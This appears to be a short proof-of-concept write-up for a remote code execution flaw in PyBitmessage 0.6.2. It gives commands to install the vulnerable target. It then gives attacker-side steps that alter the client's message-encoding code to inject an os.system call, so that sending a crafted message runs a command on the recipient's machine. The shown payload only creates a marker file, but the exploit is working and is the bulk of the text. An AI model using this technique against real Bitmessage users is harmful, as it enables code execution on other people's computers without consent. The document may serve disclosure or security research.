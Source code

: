 ### PyBitmessage RCE at 0.6.2

#### environment setting (target side)
```
$ sudo apt-get install python openssl git python-qt4 libopenssl-dev
$ wget https://github.com/Bitmessage/PyBitmessage/archive/v0.6.2.zip
$ unzip PyBitmessage-0.6.2
$ cd PyBitmessage-0.6.2/src && ./bitmessagemain.py
```

#### environment setting (attacker side)
```
- modify ./src/messagetypes/message.py
    - In function ```encode```
    - comment ```super(Message, self).encode()```
    - Add ```self.data = {"": __import__('os').system('touch /tmp/123456')}```

execute ./src/bitmessagemain.py
Write attribute message, press 'shift' button and click send to target address, will trigger RCE
```
